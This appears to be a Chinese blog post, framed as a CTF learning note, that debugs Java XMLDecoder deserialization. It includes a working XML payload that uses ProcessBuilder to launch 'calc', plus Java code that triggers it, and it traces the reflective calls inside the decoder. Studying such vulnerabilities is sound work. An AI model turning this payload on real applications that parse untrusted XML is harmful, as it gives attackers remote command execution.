 # 前言

上周五看了`GKCTF`的`babycat`那题，接触了`XMLDecoder`的漏洞，看了几天还是没看太明白。。。太菜了呜呜。。所以这是第一篇，暂时分析到这里，前面的处理XML的流程没看明白，光写篇文章理一下后面的部分。等以后再来填坑了。

只是简单的记录自己的调试过程，非常失败，没搞太懂。



# 利用

利用就是，写一个这样的xml：

```xml
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"></void>
    </object>
</java>
```

触发：

```java
        try(FileInputStream fileInputStream = new FileInputStream("1.xml")){
            XMLDecoder xmlDecoder = new XMLDecoder(fileInputStream);
            Object o = xmlDecoder.readObject();
            System.out.println(o);
        }
```

![image-20210906213646200]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210906213646200.png)



# 简单的分析

不算所谓的分析了，单纯的调试一下，看看后半部分的过程都干了什么。

从这个`endElement`开始调，勉强看懂了这部分的处理。

![image-20210907005809643]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907005809643.png)



也算是对`xml`的每一层进行处理了。

首先是对`localpart="string",rawname="string"`进行处理，也就是这里：`<string>calc</string>`。

跟进：

![image-20210907010009378]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907010009378.png)

接下来对xml的每一层进行处理基本就是跟这些函数了：

![image-20210907010110627]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907010110627.png)

得到`string`的值`calc`：

![image-20210907010144897]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907010144897.png)



然后调用了`this.parent.addArgument`，把这个值加给了`parent`的`argument`里面。



之后经过一些处理再次回到这里，这时候是对`void`进行处理了：

```xml
            <void index="0">
                
            </void>
```

接下来还是和处理`string`的流程类似了。一路跟进到`getValueObject`的时候，发现`length`为2，所以这里是`set`：

![image-20210907010753329]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907010753329.png)

之后再跟进到这里：

```java
            return ValueObjectImpl.create(var5.getValue());
```

进入`var5.getValue()`方法，发现有个`invoke`方法：

```java
    public Object getValue() throws Exception {
        if (value == unbound) {
            setValue(invoke());
        }
        return value;
    }
```

再跟进调试一下，最终在这里给`target`设置了值：

![image-20210907010948065]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907010948065.png)

之后的流程也差不多，之后是处理`array`：

```xml
        <array class="java.lang.String" length="1">

        </array>
```

然后就是`void`：

```xml
        <void method="start"></void>
```

最后处理到`object`：

```java
    <object class="java.lang.ProcessBuilder">
        
    </object>
```

其中对象用`new`产生，通过反射得到构造器然后调用。最终在这里通过反射调用了`start()`方法：

![image-20210907011420145]([Java安全]XMLDecoder反序列化学习(一).assets/image-20210907011420145.png)

太难了呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜呜。

# 参考链接

https://paper.seebug.org/916/

https://y4tacker.blog.csdn.net/article/details/118894375

https://www.freebuf.com/articles/network/247331.html

https://www.kingkk.com/2019/05/Weblogic-XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/

https://xz.aliyun.com/t/5069













